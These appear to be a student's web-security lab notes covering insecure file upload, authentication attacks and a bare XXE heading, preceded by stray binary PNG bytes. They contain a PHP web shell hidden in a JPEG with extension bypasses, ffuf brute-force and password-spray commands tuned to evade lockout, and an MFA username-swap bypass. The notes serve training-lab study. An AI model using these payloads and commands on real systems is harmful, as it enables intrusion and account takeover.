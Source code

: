 ```
�PNG  IHDRhhz�a�gAMA���a cHRMz&�����u0�`:�p��Q<�bKGD�������tIME�*%�d��DIDATx���xdgy�4Ҍ�Ϝ~�z��H[�{Åf�jl�����1%!��!@h � www-data ϫ�*�����lXB��%7u ��X��?@�5q�gP%tEXtdate:create2023-08-15T06:42:37+00:00�[�m%tEXtdate:modify2023-08-15T06:42:37+00:00�=�IEND�B`�
```
## insecure_fileupload 0x03
- check if client-side or server-side insecure file upload is in place: examining requests shows client-side is in place like previous labs
- bypass client-side file type check with changing the file extension to .php. This reveals a server-side check is also implemented
- upload a jpeg file and use the request in BurpSuite to only keep the beginning and end of the jpeg bytes and insert php command `<?php system($_GET['cmd']) ?>`
- upload the script obfuscated inside the jpeg file with .php5 extension. This gets uploaded, but when examined it doesn't seem to run the script
- try with `.phtml`: this works just fine!

# Authentication Attacks
#authentication_attacks #attack_authentication

## Lab a0x01
### Method 1 - ffuf
much faster than burpsuite.
- add request into a txt file and replace password with the word `FUZZ`
- `ffuf -request ./auth1-req-fuzz.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt -fs 1814`
- `-fs`: filters out any response with the length of 1814. After a few attempts we can see the wrong password results in length of 1814
### Method 2 - BurpSuite
Sniper attack using wordlist `/usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000.txt`

## Lab a0x02
intercept `jessamy`'s MFA log in and replace `jessamy` with `jeremy`. The vulnerability is the MFA code working for any user!

## Lab a0x03
Clusterbomb attack targets two points for fuzzing. The request payload can be prepared like this:
`username=FUZZUSER&password=FUZZPASS`
Can use burpsuite or ffuf:
As lockout policy is set to 5, we can build a list of 4 most common passwords `pass_list_4.txt` and password sprat against a list of common user names:
`$ ffuf -request ./auth3-req-fuzz.txt -request-proto http -mode clusterbomb -w ./pass_list_4.txt:FUZZPASS -w /usr/share/wordlists/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3256,3356`

# XXE
#xxe #external_entities_injection
[Reference](https://portswigger.net/web-security/xxe#what-are-the-types-of-xxe-attacks)
